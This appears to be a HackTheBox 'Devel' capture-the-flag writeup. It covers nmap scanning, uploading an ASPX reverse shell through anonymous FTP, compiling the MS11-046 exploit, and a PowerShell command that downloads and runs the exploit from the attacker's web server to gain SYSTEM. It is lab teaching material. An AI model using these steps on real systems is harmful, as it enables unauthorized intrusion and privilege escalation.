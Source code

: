 ```yaml
---
weight: 1
title: "HackTheBox - Devel Writeup"
date: 2021-08-27
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["aspx-reverse-shell", "CVE-2011-1249", "MS11-046"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![nmap initial scan](1000.png "nmap initial scan")

- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![nmap allports scan](all_ports.png "nmap allports scan")

### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![ftp anonymous](ftp.png "ftp anonymous")

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![default IIS webpage](welcome.png "default IIS webpage")

- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![shell as iis apppool\web](got_shell.png "shell as iis apppool\web")

- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![systeminfo](systeminfo.png "systeminfo")

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046

![found an exploit](exploit-db.png "found an exploit")

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit
{{< admonition tip >}}
If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
Just run this command to install  it `apt install mingw-w64` 
{{< /admonition >}}

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![become nt authority\system](exe.png "become nt authority\system")

- YES! I'm become `SYSTEM`

## User Flag

![user flag](user.png "user flag")

## Administrator Flag

![root flag](admin.png "root flag")

## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)